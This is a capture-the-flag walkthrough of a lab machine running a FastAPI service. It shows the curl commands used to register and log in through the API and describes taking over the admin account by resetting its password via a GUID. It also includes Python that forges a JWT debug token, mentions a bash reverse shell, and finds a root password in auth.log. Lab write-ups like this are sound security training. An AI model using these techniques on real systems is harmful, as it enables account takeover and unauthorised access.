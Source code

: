 # Enumeration 
Nmap scan revealed there were 2 open ports (22/80), so I figured this would be a web-based exploit to gain credentials then some sort of LPE once a shell was gained through SSH.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    uvicorn
```

## 80/tcp uvicorn
Initial recon of this service revealed it was hosting a web-based API *"UHC API Version 1.0"* 

Okay, simple enough, let's enumerate to discover API endpoints for possible exploitation.
```
Target: http://10.10.11.161/

[10:50:08] Starting: 
[10:50:24] 200 -   20B  - /api                                              
[10:50:24] 307 -    0B  - /api/  ->  http://10.10.11.161/api                
[10:50:24] 200 -   30B  - /api/v1                                           
[10:50:29] 401 -   30B  - /docs                                             
[10:50:29] 307 -    0B  - /docs/  ->  http://10.10.11.161/docs
``` 
I tried to access /docs but it required authentication. Next I took a look at /api/v1 and discovered two additional endpoints that were not revealed with dirsearch: user & admin.
![9b68994eae64fc2d51e9063ab5ed7c60.png](../_resources/9b68994eae64fc2d51e9063ab5ed7c60.png)

During my initial recon into these endpoints, I ran into the issue that /api/v1/user was not found, but /api/v1/admin gave me an unauthenticated error. I did some research into API pentesting and consulted [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/web-api-pentesting) to find an article which led me in the right direction and I was able to find tons of information on users. I discovered the API used an integer value associated with each user which allowed me to further enumerate users and user information.
**/api/v1/user/1 output:**	
```
guid	"36c2e94a-4271-4259-93bf-c96ad5948284"
email	"admin@htb.local"
date	null
time_created	1649533388111
is_superuser	true
id	1
```

I got stuck for a while trying to enumerate the user endpoint manually, so I did some googling and figured I would try using feroxbuster to test / filter different HTTP methods and requests, and it revealed two endpoints which I was able to leverage to gain user privilege on the API.
```
422     POST        1l        3w      172c http://10.10.11.161/api/v1/user/login
200      GET        1l        1w      141c http://10.10.11.161/api/v1/user/1
422     POST        1l        2w       81c http://10.10.11.161/api/v1/user/signup
200      GET        1l        1w      141c http://10.10.11.161/api/v1/user/01
200      GET        1l        1w      141c http://10.10.11.161/api/v1/user/001
200      GET        1l        1w      141c http://10.10.11.161/api/v1/user/0001
[####################] - 2m     60000/60000   0s      found:6       errors:0      
[####################] - 2m     60000/60000   345/s   http://10.10.11.161/api/v1/user
``` 

# User Access 
**/api/v1/user/signup** allowed me to create a new user, then login through **/api/v1/user/login** using the new credentials, giving access to an semi-unrestricted interactive FastAPI portal. 
**Register new user zig:**

```
curl -v -s -X POST -d '{"email": "zig@htb.htb", "password": "testpassword"}' http://10.10.11.161/api/v1/user/signup -H "Content-Type: application/json"
```

**Login with zig:**
```
curl -s -d 'username=zig@htb.htb&password=testpassword' http://10.10.11.161/api/v1/user/login
```

**Response:**
```
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU3ODI4OTI5LCJpYXQiOjE2NTcxMzc3MjksInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiMTJjZjk3NmEtNDNjMi00NTNlLWI1N2YtNjAyNGJmODljNzk3In0.Vpa9cAmcrC8mhQeGjrWozQmhPT6eLh-v6jnPMipHPs4",                                                                
  "token_type": "bearer"
}
```

![f09c6afb8a71a92ee06403e8bc217330.png](../_resources/f09c6afb8a71a92ee06403e8bc217330.png)

Once I was authenticated and had access to the frontend, I tried messing around with the API to see what endpoints I had access to and discovered the user flag and a very interesting endpoint that allowed me to update any user password by specifying a GUID, which we thankfully discovered during earlier enumeration. 
![5b494b7efa5e59d14ae9e34a55464a00.png](../_resources/5b494b7efa5e59d14ae9e34a55464a00.png)

**Login with admin thru API w/ curl**
```
curl -s -d 'username=admin@htb.local&password=password' http://10.10.11.161/api/v1/user/login
```

**Response**
```
{
	"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU3ODMzMzE4LCJpYXQiOjE2NTcxNDIxMTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.EJBTHaVgn45Gw-UxWGP0JSGnY2RSJylVWMFGkK_l6bk",
	"token_type":"bearer"
}
``` 

**Login thru web interface**
![66b10112af073523173a06149f84ed07.png](../_resources/66b10112af073523173a06149f84ed07.png)
![7b68a0d3364dc6cc0515d17bb37cc1e9.png](../_resources/7b68a0d3364dc6cc0515d17bb37cc1e9.png)

With the higher-privilege admin account I was able to read files like /etc/passwd but I still was limited in the way that I did not have full command execution privileges which was provided through a JWT debug token. Source code analysis revealed the JWT we currently have needed the debug key in order to use the **/exec** endpoint, and with a few lines of Python we had a forged debug key. 
```
>>> token = 'redacted'
>>> secret = 'redacted'
>>> decoded = jwt.decode(token, secret, ['HS256'])
>>> decoded
{'type': 'access_token', 'exp': 1657835375, 'iat': 1657144175, 'sub': '1', 'is_superuser': True, 'guid': '36c2e94a-4271-4259-93bf-c96ad5948284'}
>>> decoded["debug"] = True
>>> jwt.encode(decoded, secret, "HS256")
```

Base64 encode a bash reverse shell and boom we are in. Next step root.
![a174aa92be981065f61874cddd3f01ff.png](../_resources/a174aa92be981065f61874cddd3f01ff.png)
![5736deb3e83c302d7a0a0df09b0d924d.png](../_resources/5736deb3e83c302d7a0a0df09b0d924d.png)

# Root Access
Straightforward... a user accidentally entered their password as a username and we now have a cleartext password in auth.log
![aa428eaad1c1cf65d796f3818180a571.png](../_resources/aa428eaad1c1cf65d796f3818180a571.png)
su root and voila. rooted.
![80425a41c67af6539d5ce50ddc5c750f.png](../_resources/80425a41c67af6539d5ce50ddc5c750f.png)